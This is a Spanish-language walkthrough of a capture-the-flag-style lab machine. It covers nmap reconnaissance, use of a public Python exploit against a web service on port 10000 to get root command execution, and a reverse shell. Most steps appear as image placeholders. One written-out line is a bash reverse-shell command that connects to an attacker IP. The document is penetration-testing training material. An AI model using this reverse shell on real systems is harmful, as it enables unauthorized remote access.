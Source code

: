 Vamos a hacer un reconocimiento con nmap y nos encuentra el puerto 22 y el puerto 10000:
![[Pasted image 20230403105650.png]]
Vemos que tenemos un servicio web corriendo por el puerto 10.000, que utiliza SSL por lo que tenemos que poner la URL como https:
![[Pasted image 20230403105911.png]]
Si buscamos por internet, podemos ver que existe un exploit en python que nos permite ejecutar comandos si lo lanzamos contra esta web:
![[Pasted image 20230404123527.png]]
![[Pasted image 20230404123542.png]]
Por tanto vamos a probar en descargarlo y vemos las instrucciones:
![[Pasted image 20230404123612.png]]
Lo probamos utilizando los parámetros oportunos y vemos que tenemos ejecución remota de comandos, y además siendo el usuario root:
![[Pasted image 20230404123650.png]]
Es importante recalcar que para esta herramienta los comandos deben ir entre comillas, para que se interpreten correctamente los espacios:
![[Pasted image 20230404124626.png]]
Por tanto vamos a compartir el código para obtener la reverse shell con python y lo pipeamos con bash desde la máquina víctima mientras estamos escuchando con netcat:
```python
bash -i >& /dev/tcp/10.10.16.27/443 0>&1
```
Subimos esto a un servidor web con python:
![[Pasted image 20230404124951.png]]
Lo ejecutamos en la máquina víctima pipeándolo con bash:
![[Pasted image 20230404125013.png]]
Y recibiremos la shell reversa con netcat:
![[Pasted image 20230404125034.png]]
